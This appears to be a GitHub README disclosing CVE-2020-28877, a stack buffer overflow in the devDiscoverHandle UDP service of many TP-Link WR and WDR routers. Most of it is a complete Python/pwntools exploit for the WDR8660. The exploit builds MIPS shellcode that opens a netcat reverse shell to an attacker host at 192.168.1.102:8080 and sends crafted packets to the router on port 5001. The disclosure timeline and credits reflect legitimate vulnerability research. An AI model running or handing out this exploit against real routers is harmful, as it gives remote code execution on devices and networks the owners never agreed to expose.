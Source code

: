 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.15 report to CVE and TP-Link

2020.11.21 assign [CVE-2020-28877](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28877)

## Acknowledgment 

Credit to [@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7) and [@cpegg](https://github.com/cpeggg) from Technology Research Institute of Legendsec at Qi'anxin Group.
